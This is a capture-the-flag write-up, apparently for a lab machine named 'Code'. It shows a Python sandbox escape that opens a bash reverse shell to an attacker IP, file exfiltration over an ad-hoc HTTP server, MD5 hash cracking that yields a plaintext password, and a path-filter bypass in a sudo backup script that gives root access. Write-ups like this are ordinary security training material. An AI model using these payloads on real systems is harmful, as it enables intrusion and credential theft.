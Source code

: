 # Code

## Machine Informations





## Port Scanning

```bash
nmap -T4 -sV -p- --min-rate 1000 --open -oN port_scan.txt 10.10.11.62

Nmap scan report for 10.10.11.62
Host is up (0.057s latency).
Not shown: 63145 closed tcp ports (reset), 2388 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Gunicorn 20.0.4
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



## Web Enumeration

### Web Whitelist Code Bypass

The web page is a python code editor that allow us to execute some python code.

<figure><img src="../../../.gitbook/assets/image (196).png" alt=""><figcaption></figcaption></figure>

We can try to find a escape to execute arbitraty code into a machine to get a reverse shell.

Restricted Words:

* import
* exec

Since we cannot use the words to import the libreries to execute code, we can try to call the class from local subclasses of installed python.

In the Python default subclasses there is a "Popen", that allow us to execute code.

Write a simple reverse shell, setup listening port in our machine and run it the python code.

<pre class="language-bash"><code class="lang-bash"><strong>nc -lnvp 9009
</strong></code></pre>

{% code title="" overflow="wrap" %}
```python
().__class__.__base__.__subclasses__()[317](["/bin/bash", "-c", "ls|bash -i >& /dev/tcp/10.10.14.117/9009 0>&1"])
```
{% endcode %}

And we have a reverse shell

<figure><img src="../../../.gitbook/assets/image (197).png" alt=""><figcaption></figcaption></figure>

### Flag.txt

```bash
cat /home/app-production/user.txt
```



## Privilege Escalation

There is a readable Backups repository for us in the martin home directory.

```bash
ls -la /home/martin/backups
```

<figure><img src="../../../.gitbook/assets/image (198).png" alt=""><figcaption></figcaption></figure>

Start a simple http webserver in the target machine to transfer the file.

{% code title="Target machine" %}
```bash
# /home/martin/backups
python3 -m http.server 8080
```
{% endcode %}

{% code title="Attack machine" %}
```bash
wget http://10.10.11.62:8080/code_home_app-production_app_2024_August.tar.bz2
```
{% endcode %}

Now try to unzip the file to read the content.

```bash
bzip2 -d code_home_app-production_app_2024_August.tar.bz2
```

Searching into directory, i found a .db file. Try to get some juicy data.

```bash
cd home/instance
sqlite3 database.db
```

```sql
sqlite> SELECT * FROM user;
1|development|759b74ce43947f5f4c91aeddc3e5bad3
2|martin|3de6f30c4a09c27fc71932bfc68474be
```

The hashs seem to be MD5 format.

Check if the hash is present into crackstation site.&#x20;

<figure><img src="../../../.gitbook/assets/image (200).png" alt=""><figcaption></figcaption></figure>

The password for martin user is `nafeelswordsmaster`&#x20;

Access via SSH to target machine as martin user.

```bash
ssh martin@10.10.11.62
```

### Linux PrivEsc

```bash
martin@code:~$ sudo -l
Matching Defaults entries for martin on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User martin may run the following commands on localhost:
    (ALL : ALL) NOPASSWD: /usr/bin/backy.sh

```

The script that martin can execute has the follow content:

{% code overflow="wrap" %}
```bash
#!/bin/bash

if [[ $# -ne 1 ]]; then
    /usr/bin/echo "Usage: $0 <task.json>"
    exit 1
fi

json_file="$1"

if [[ ! -f "$json_file" ]]; then
    /usr/bin/echo "Error: File '$json_file' not found."
    exit 1
fi

allowed_paths=("/var/" "/home/")

updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")

/usr/bin/echo "$updated_json" > "$json_file"

directories_to_archive=$(/usr/bin/echo "$updated_json" | /usr/bin/jq -r '.directories_to_archive[]')

is_allowed_path() {
    local path="$1"
    for allowed_path in "${allowed_paths[@]}"; do
        if [[ "$path" == $allowed_path* ]]; then
            return 0
        fi
    done
    return 1
}

for dir in $directories_to_archive; do
    if ! is_allowed_path "$dir"; then
        /usr/bin/echo "Error: $dir is not allowed. Only directories under /var/ and /home/ are allowed."
        exit 1
    fi
done

/usr/bin/backy "$json_file"

```
{% endcode %}

The script takes the task.json file to make a backup copy of a directory wrote in the task.json file.

I've tried to insert /root directory in this way /var/../root, to try bypass the function below in the backy.sh script.

{% code overflow="wrap" %}
```bash
updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")
```
{% endcode %}

FIND A WAY TO BYPASS THIS

```bash
cd backups
nano task.json
```

Add the root directory bypassing the control, and REMOVE the object that remove all file in the directory.

```bash
"directories_to_archive": [
    "/var/....//root"
  ]
```

And we'll have a backup of the root directory.

Transfer file to attack machine

```bash
# target machine
python3 -m http.server 8080

# attack machine 
wget http://10.10.11.62:8080/code_var_...._root_2025_March.tar.bz2
```

Extract all and read the root flag

```bash
bzip2 -d code_var_...._root_2025_March.tar.bz2
```

### Root.txt

```bash
cat /root/root.txt
```

